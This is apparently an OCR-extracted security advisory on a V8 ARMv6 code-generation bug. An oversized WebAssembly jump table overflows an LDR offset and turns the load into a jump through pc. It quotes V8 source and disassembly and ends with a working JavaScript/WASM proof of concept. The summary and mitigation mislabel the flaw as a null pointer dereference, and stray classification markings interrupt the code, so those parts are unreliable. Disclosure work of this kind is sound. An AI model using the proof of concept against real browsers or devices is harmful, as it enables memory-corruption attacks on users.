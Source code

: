 Summary
A null pointer dereference has been discovered in V8 compiler which affects the latest version.
This vulnerability allows an attacker to bypass a security mitigation.

Details
ARM (unlike X86) uses fxed length 32-bit opcodes. This means that it cannot encode a 32-bit
literal immediate value for an instruction to operate on. In many places within the V8 compiler, a
operation on an immediate literal is required. In x86 these are encoded directly into the
instruction. On ARM there is a concept of a "Constants Pool", where 32 bit literals are embedded
in a pool within the machine-code. A PC-relative load is used to load these literals into a register
prior to whichever operation is required. The PC-relative load instruction ldr has a limited offset
range of 12-bits which can be encoded within the instruction. This means that a const pool must
be emitted within 4095 bytes range of the ldr instruction which loads from it. V8 manages this
by caching up constant pool entries, then checking every so often (with CheckConstPool) when
an instruction is emitted whether a constant pool would be required before the next scheduled
check. If required, a constant pool would be emitted, along with a b instruction to jump over the
non-code data.

The logic that ensures the constants pools are always emitted "in range" is sound, however there
is an additional mechanism BlockConstPoolFor which allows the emission of the constant
pool to be blocked. This mechanism is designed to be used for small sections of code which
must be physically contiguous. The CheckConstPool mechanism has enough margin for error
built into its calculations to allow for this. The function AssembleArchTableSwitch produces
jump-tables in ARM which are structured as an array of b instructions, with a computed jump into
the table which selects which of the jump cases will be taken.

void CodeGenerator::AssembleArchTableSwitch(Instruction* instr) {
 ArmOperandConverter i(this, instr);
 Register input = i.InputRegister(0);
 size_t const case_count = instr->InputCount() - 2;
 // Ensure to emit the constant pool first if necessary.
 __ CheckConstPool(true, true); [2]
 __ cmp(input, Operand(case_count)); [3]
 __ BlockConstPoolFor(case_count + 2); [1]
 __ add(pc, pc, Operand(input, LSL, 2), LeaveCC, lo);
 __ b(GetLabel(i.InputRpo(1)));
 for (size_t index = 0; index < case_count; ++index) { [4]
 __ b(GetLabel(i.InputRpo(index + 2)));
 }
}
At [1] this structure is marked with BlockConstPoolFor in order to prevent constant pool
emission within the jump table. If you were in a situation where a constant pool was just about to
be emitted, then you entered CodeGenerator::AssembleArchTableSwitch, this could cause
the constant pool window to be overrun.

To work around this, at [2] CheckConstPool(true, true) is used to force_emit a constant pool
prior to the jump table. This causes all pending constants to be emitted.

However, there is an oversight at [3], The cmp instruction that is emitted compares the register
input against the literal case_count. Which may cause a new constant to be required.

cmp calls through to AddrMode1.

void Assembler::cmp(Register src1, const Operand& src2, Condition cond) {
 AddrMode1(cond | CMP | S, no_reg, src1, src2);
}
void Assembler::mov(Register dst, const Operand& src, SBit s, Condition cond) {
 AddrMode1(cond | MOV | s, dst, no_reg, src);
}
void Assembler::AddrMode1(Instr instr, Register rd, Register rn, const Operand& x) {
 /* ... */
 if (!AddrMode1TryEncodeOperand(&instr, x)) { [5]
 DCHECK(x.IsImmediate());
 /* ... */
 Condition cond = Instruction::ConditionField(instr);
 if ((opcode == MOV) && !set_flags) {
 // Generate a sequence of mov instructions or a load from the constant
 // pool only for a MOV instruction which does not set the flags.
 DCHECK(!rn.is_valid());
 Move32BitImmediate(rd, x, cond); [7]
 } else if ((opcode == ADD) && !set_flags && (rd == rn) && !temps.CanAcquire()) {
 /* ... */
 } else {
 // The immediate operand cannot be encoded as a shifter operand, so load
 // it first to a scratch register and change the original instruction to
 // use it.
 // Re-use the destination register if possible.
 Register scratch = (rd.is_valid() && rd != rn && rd != pc) ? rd : temps.Acquire();
 mov(scratch, x, LeaveCC, cond); [6]
 AddrMode1(instr, rd, rn, Operand(scratch));
 }
 return;
 }
 /* ... */
} 

Move32BitImmediate has two branches, if UseMovImmediateLoad returns true, a pair of
instructions that each load 16- bits of immediate (movw andmovt ) are used to populate the
literal. This case is taken on devices that support ARMv7, and prevents this vulnerability from
being accessible on these devices. On ARMv6 devices and below, the else case is taken.
At [8] a new constant pool entry is added containing our immediate.
At [9] a pc-relative LDR is emitted to load this. In this code the imm12 of the ldr_pcrel is a
dummy stand-in value, that will be patched with the offset to the constant pool when it is fnally
emitted. This patching is done in SetLdrRegisterImmediateOffset.
void Assembler::Move32BitImmediate(Register rd, const Operand& x,
 Condition cond) {
 if (UseMovImmediateLoad(x, this)) {
 /* ... */
 } else {
 int32_t immediate;
 /* ... */
 immediate = x.immediate();
 ConstantPoolAddEntry(pc_offset(), x.rmode_, immediate); [8]
 ldr_pcrel(rd, 0, cond); [9]
 }
}
The call to AddrMode1TryEncodeOperand at [5] always returns false in this case, as this
checks whether the current instruction allows literals to be embedded within it, cmp does not
allow this.
So we hit the call to mov at [6] which tries to move our immediate x to a scratch register for use
in the cmp instruction.
mov calls back into AddrMode1, but this time we take call Move32BitImmediate at [7].
If we have more than 1024 (minus a few for other instructions) cases in our jump-table, then the
range between the LDR instruction and the constant pool entry will overfow the 12-bits of literal
space available within the instruction.
Due to how the offset is patched at [10] this allows the bits above 12 within our offset to overfow
and incorrectly set higher bits within the instruction emitted, changing the function of the
instruction.

 Instr Assembler::SetLdrRegisterImmediateOffset(Instr instr, int offset) {
 DCHECK(IsLdrRegisterImmediate(instr));
 bool positive = offset >= 0;
 if (!positive) offset = -offset;
 DCHECK(is_uint12(offset));
 // Set bit indicating whether the offset should be added.
 instr = (instr & ~B23) | (positive ? B23 : 0);
 // Set the actual offset.
 return (instr & ~kOff12Mask) | offset; [10]
}
In the POC we change the Rd destination register of the load, so that it loads pc register and
causes a jump to an malformed address. For example:
0x3bb2f5b4 14 e59ff010 ldr pc, [pc, #+16] (addr 0x3bb2f5cc)
0x3bb2f5b8 18 e150000c cmp r0, ip
0x3bb2f5bc 1c 308ff100 addcc pc, pc, r0, lsl #2
0x3bb2f5c0 20 ea000c02 b +12304 -> 0x3bb325d0 <+0x3030>
0x3bb2f5c4 24 ea0021ea b +34736 -> 0x3bb37d74 <+0x87d4>
0x3bb2f5c8 28 ea000c05 b +12316 -> 0x3bb325e4 <+0x3044>
0x3bb2f5cc 2c ea0021e8 b +34728 -> 0x3bb37d74 <+0x87d4>
0x3bb2f5d0 30 ea000c06 b +12320 -> 0x3bb325f0 <+0x3050>
0x3bb2f5d4 34 ea0021e6 b +34720 -> 0x3bb37d74 <+0x87d4>
...
This would cause a jump to 0xea0021e8. Controlling this jump would be somewhat hard, as the
only data available to be loaded by the ldr is the opcodes of the b <addr> instructions within.
Additionally, we are limited to only setting bits, in the instruction, never unsetting them. Finally
each bit that we want to set in the opcode requires 2^(n-2) cases within our jump table.


Proof Of Concept
This code depends on wasm-constants.js and wasm-module-builder.js from the V8 source
tree. Additionally to run d8 on a newer device in ARMv6 mode the fag --arm_arch armv6 flag
 can be used
log("Starting WASM Builder");
let builder = new WasmModuleBuilder();
let body = [];
// We're going to overflow the 12-bit immediate of an LDR instruction to set bits
// in the register part of the instruction. We want to set the bottom two bits
// which will flip `ip` to `pc`
const bits_to_set = 0x3000;
// Each switch case we add to our branch table adds four-bytes to the LDR offset.
const NUM_CASES = (bits_to_set/4) + 1;
// Enter the nested code blocks
for (let i=0; i<NUM_CASES; i++) {
 body.push(kExprBlock);
 body.push(kWasmStmt);
}
// Add a BrTable which selects a code block based on arg0
 body.push(kExprBlock);
 body.push(kWasmStmt);
 body.push(kExprGetLocal, 0);
 body.push(kExprBrTable, ...varuint32(NUM_CASES));
 for (let i=0; i<NUM_CASES; i++) {
 body.push(...wasmI32Const(i));
 }
 body.push(0); // default case
 body.push(kExprEnd);
// Add returns from 4096 nested blocks
for (let i=0; i<NUM_CASES; i++) {
 body.push(...wasmI32Const(i));
 body.push(kExprReturn);
 body.push(kExprEnd);
}
// Default return value
body.push(...wasmI32Const(-1));
builder.addFunction('main', kSig_i_i)
UK OFFICIAL SENSITIVE COMMERCIAL
UK OFFICIAL SENSITIVE COMMERCIAL
 .addBody(body)
 .exportFunc();
log("Constructed WASM layout");
let buffer = builder.toBuffer(true);
log("Built WASM buffer");
let mod = new WebAssembly.Module(buffer);
log("Built WASM Module");
let inst = new WebAssembly.Instance(mod, {});
log("Instantiated WASM Module");
inst.exports.main(0)

Mitigation
Address the null pointer deference.